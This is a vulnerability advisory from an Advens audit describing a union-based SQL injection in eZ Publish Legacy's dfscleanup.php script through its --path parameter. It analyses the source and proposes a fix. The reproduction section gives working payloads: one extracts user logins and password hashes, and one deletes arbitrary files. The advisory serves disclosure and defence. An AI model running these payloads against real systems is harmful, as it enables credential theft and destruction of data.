









# Disclaimer
This vulnerability was discovered during an audit from Advens, a pure player in cybersecurity. To know more about Advens : https://www.advens.com/
# CVSS v3.1 score: 7.1/10 (High)
# Summary
An authenticated attacker with the ability to run the `bin/php/dfscleanup.php` script can achieve union-based SQL injection onto the eZ Publish MySQL database. This vulnerability is caused by the absence of sanitization of the user-controlled `--path` parameter both from the `bin/php/dfscleanup.php` script as well as the function `_getFileList` from the
`eZDFSFileHandlerMySQLiBackend` class located at  `kernel/private/classes/clusterfilehandlers/dfsbackends/mysqli.php`.

Even though the prerequisites for such an attack are restrictive (an attacker needs to have a shell access onto the server hosting the web application in order to execute the php script, as well as sufficient rights to execute the script itself), in the principle of minimal privilege, this script should not allow its user to extract arbitrary information from the eZ Publish MySQL database.

Also, since this script has file deletion capabilities based off the result of the user-controlled SQL query, it can be leveraged to achieve **arbitrary file deletion**.

Hence, given the prerequisites and the impact of this vulnerability, the CVSS v3.1 score is evaluated as: **7.1/10 (High, CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:N)**.

The vulnerability has been introduced in the commit a5689a1, in November of 2012 : [https://github.com/ezsystems/ezpublish-legacy/commit/a5689a1dff3712394597f3d486b54aa55366bc56](https://github.com/ezsystems/ezpublish-legacy/commit/a5689a1dff3712394597f3d486b54aa55366bc56 "https://github.com/ezsystems/ezpublish-legacy/commit/a5689a1dff3712394597f3d486b54aa55366bc56"). 
It affects all versions of eZ Publish Legacy from this commit onwards.
# Analysis of the source code
When executed, the `dfscleanup.php` script passes the content of the `--path` parameter to the `getFileList` function of the file handler, then print the resulting file list in the CLI output:



The file handler’s `getFileList` function calls the `_getFileList` function from its according
backend:



If the backend in use happens to be the default `eZDFSFileHandlerMySQLiBackend`, the user-
controlled input is directly injected into the query without sanitization:



The vulnerable concatenation occurs at line 1126 of the file `kernel/private/classes/clusterfilehandlers/dfsbackends/mysqli.php`:
```php
$query .= " WHERE name LIKE '" . $path . "%'";
```
Unlike other query parameters in the same class which are systematically passed through `_quote()` → `mysqli_real_escape_string()`, `$path` receives no sanitization whatsoever.

Since` _getFileList` returns query results directly to dfscleanup.php which prints them to the CLI output, this injection is in-band: exfiltrated data is immediately visible to the attacker without requiring any inference technique, making exploitation straightforward.

Furthermore, this script allows for deletion of the listed files. Therefore, it is possible for an attacker to inject arbitrary full file paths inside the result of the SQL query to delete arbitrary files by using the `-D` option of the script:



Indeed, the `eZClusterFileHandler::purge()` function removes the file regardless of its presence on the DFS database :



However, the file has first to pass the `!$fh->exists( true )` check:





Unless the developer made a custom listener on the `cluster/fileExists` event, the MySQL query searching for a matching md5 hash in the database will be executed. This check is easily passed by any file not present on the database. 

To target files that are present, let's look at the `eZClusterFileHandler::__construct` function. If the `$filePath` is defined when creating an instance of this class, it is first cleaned using the `eZClusterFileHandler::cleanPath` function:





This function only removes consecutive slashes, replace backslashes with slashes, and remove the trailing slash. Hence, if an attacker want to delete a file that is stored in the database / DFS, adding a `./` anywhere in the filepath will corrupt the md5 check, which in turn makes the `$fh->exists( true )` return `false`, and the file is then unlinked by `$fh->purge()`.

# Steps to reproduce
First, instanciate the eZ Publish 4 legacy kernel, along with a fake database content using this github repository. After cloning the repository, start it using `docker compose`, then connect to the webserver:
```bash
$ docker compose up –build -d
$ docker compose exec web su ezpublish
```
Then, call the `dfscleanup.php` script using the following `--path` payload:
```bash
$ php bin/php/dfscleanup.php -S --path="' UNION SELECT CONCAT(login,':',password_hash) FROM ezuser-- -"
```
The script execution then exctracts the credentials stored in the database:
```
Performing cleanup on directory <' UNION SELECT CONCAT(login,':',password_hash) FROM ezuser-- ->.
Checking files registered in the database...
- admin:$2y$10$abcdefghijklmnopqrstuuVGqKMOWPdSYJwDHqBmBHKpHPOzQxK1i
- editor:$2y$10$zyxwvutsrqponmlkjihgguVGqKMOWPdSYJwDHqBmBHKpHPOzQxK1i
- admin:$2y$10$abcdefghijklmnopqrstuuVGqKMOWPdSYJwDHqBmBHKpHPOzQxK1i
- editor:$2y$10$zyxwvutsrqponmlkjihgguVGqKMOWPdSYJwDHqBmBHKpHPOzQxK1i
Done
```
Now, to illustrate file deletion, first create an arbitrary file in a folder:
```sh
$ touch /tmp/test.file  
$ ls -l /tmp/test.file  
-rw-r--r-- 1 ezpublish ezpublish 0 Mar  6 10:18 /tmp/test.file
```
Then, erase it using the vulnerable script with the `-D` option like so:
```sh
$ php bin/php/dfscleanup.php -D -S --path="doesnotexist' UNION SELECT '/tmp/test.file' LIMIT 1-- -"
```
The file is deleted by the script execution:
```
Performing cleanup on directory <doesnotexist' UNION SELECT '/tmp/test.file' LIMIT 1-- ->.  
Deleting database records for files that do not exist on DFS share...  
 - /tmp/test.file  
 - /tmp/test.file  
Done  
```
```sh
$ ls -l /tmp/test.file  
ls: cannot access '/tmp/test.file': No such file or directory
```
# Mitigations
To mitigate the vulnerability, the `$path` parameter should be sanitized before being concatenated into the SQL query, consistently with the approach already adopted elsewhere in the same class. Passing `$path` through the existing `_quote()` method, which internally relies on `mysqli_real_escape_string()`, would be sufficient to prevent the injection:
```php
$query .= " WHERE name LIKE " . $this->_quote( $path . "%", true );
```
Note that the second argument of `_quote()` should be set to true to also escape underscore
wildcards, consistently with the usage observed in `_purgeByLike()` and `_deleteByLike()` within the same class.

Alternatively, stop using an outdated framework which reached its End Of Life since December of 2022:  https://support.ibexa.co/Public/service-life
